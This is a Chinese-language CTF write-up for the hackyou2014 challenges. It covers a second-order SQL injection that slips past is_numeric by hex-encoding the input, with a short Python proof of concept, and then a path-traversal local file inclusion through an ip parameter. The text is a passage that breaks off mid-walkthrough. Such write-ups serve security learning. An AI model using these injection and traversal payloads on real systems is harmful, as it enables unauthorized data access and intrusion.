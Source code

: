 ```
</body>
</html>
<!-- TODO: remove index.phps -->

```

其中 id 是被 is_numeric 过滤后，插入到 vote 表里的，可以用十六进制或者二进制绕过 is_numeric,把注入查询语句插入到 vote 表里，然后又从 vote 表里取出，形成二次注入。

POC 如下：

```
#!/usr/bin/env python
import requests
import binascii
import sys

def hack(inject):
    vul={'id':inject,'vote':3,'submit':1}
    req=requests.post('http://hackyou2014tasks.ctf.su:10080/index.php',data=vul)
    print req.content

if __name__=="__main__":
    hack("0x" + binascii.hexlify(sys.argv[1]))

```

效果图如 2

![2014012112121549265_png.jpg](img/img2_u133_jpg.jpg)

## 第二关

* * *

[`hackyou2014tasks.ctf.su:20080/`](http://hackyou2014tasks.ctf.su:20080/)

这关打开后是个贪吃蛇游戏，只有注册用户才能保存结果，我们注册一个用户 babybox，玩完游戏后访问后台，发现有个 ip 参数值得注意，尝试提交

```
http://hackyou2014tasks.ctf.su:20080/cgi-bin/index.pl?ip=../../../../../../var/www/cgi-bin/index.pl 
```

发现有 LFI，如图 3
